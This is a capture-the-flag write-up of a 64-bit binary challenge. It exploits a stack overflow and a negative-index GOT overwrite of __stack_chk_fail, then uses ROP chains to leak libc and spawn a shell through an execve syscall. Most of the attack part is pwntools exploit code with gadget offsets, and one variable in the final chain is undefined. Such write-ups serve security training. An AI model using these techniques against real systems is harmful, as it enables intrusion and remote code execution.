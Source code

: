 <!-- gcc -O0 -fstack-protector -no-pie  b.c -o challenge -->

We got a 64bit stripped binary file with a Dockerfile <br/>

![image0](assets/images/image0.png)

First we try to see the protection on the the binary, in this case only PIE is not there.<br/>

![image1](assets/images/image1.png)

There is a function which takes a message as input which has buffer size of 132. but there simple bufferoverflow of 162 bytes. so we can only be able to write upto return address + 4-5 bytes extra.
 
![alt text](assets/images/image2.png)

There is a global int64 array in which we are asked the entry number and the entry to that array. we can notice it dont check for negative entry number we can able to write above the array in memory.
There is canary protection also so we have to take care of it. We can't able to read the canary from any chance.

![alt text](assets/images/image3.png)

We can see global array is in bss segment above it there GOT table so we can write on it. above that we can't write becoz its read only segment.
So we can change GOT entry of any function.

We can't find any other function usefull , so we have to do ret2lib like attack becoz there is no usefull gadgets in this binary.

but how we are going to write our rop chain with just 1 return address space ???

We can take help of message array for this but we have somehow put below our function.

so we have to call the function twice , but there is canary.

so we have to replace stack_chk_fail got value with our vuln function. or can be done by simple ret instruction address also.

little tinkering in gdb we got -19 the value of entry number for stack_chk_fail.

```=python
funcaddr = (str(int("401192",16))).encode()
io.recvuntil(b": ")
payload =b"x"*161
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline(funcaddr)
```

so we can recall the function , now we try to build a rop chain to leak puts or any other function address.
Lets find some gadgets.

![alt text](assets/images/image4.png)

![alt text](assets/images/image5.png)

so we got two gadgets which can help us to set `rdi` register.
then simple returning to puts@plt can print the thing we want.

So I set puts@got to rdi register and then call puts@plt

Now we have to return to this rop chain safe. Now here comes the image be ready.

![alt text](assets/images/image6.png)

if we safely return from future function we have to face one issue after our first return address, our first 8 bytes comes from the rop chain we got destroyed by "\n" or 0x0a which fget adds after to input. so if overwrite the ret address next value will get overwritten by 0a which is bad.

So in this can use rop gadget `add rsp,8`

![alt text](assets/images/image7.png)

```=python
io.recvline()
io.recvuntil(b": ")
payload = ((b"x"*8)+ poprbp + putsgot + movrdi +putsplt +retadr+ p64(0x401192) + b"x"*200)[:161]
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((funcaddr))


io.recvline()
io.recvuntil(b": ")
payload = b"x"*152 + addrsp
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((funcaddr))

io.recvline()
io.recvuntil(b": ")
io.sendline(b"Hooray")
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((funcaddr))
```
so this payload will call puts and leak the address
after calling puts we return to our vuln function again to exploit further.
we got puts so after that we can to ropchain of libc in similar manner.

we can get libc from Dockerfile as it uses ubuntu latest

```=python
poprsi = p64(0x0110a4d+libcbase)
binsh = p64(0x01cb42f+libcbase)
poprdi = p64(0x010f75b +libcbase)
poprax = p64(0x00dd237+libcbase)
# poprdx = p64(0x010bf1e+libcbase)
syscall = p64(0x0288b5+libcbase)

io.recvline()
io.recvuntil(b": ")
payload = ((b"x"*8)+ poprdi + binsh + poprsi +p64(0)+poprax + p64(0x3b)+syscall+ b"x"*400)[:161]
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((chaosaddr))


io.recvline()
io.recvuntil(b": ")
payload = b"x"*152 + addrsp
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((chaosaddr))

io.recvline()
io.recvuntil(b": ")
io.sendline(b"Hooray")
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((chaosaddr))
```

there can be other easy way also after leaking libc address, like doing onegadget or somthing.

![alt text](assets/images/image8.png)

So we got our flag 

C3iCtf{Wh3r3_15_7h3_pu75_4ddr355_???7&%#*}







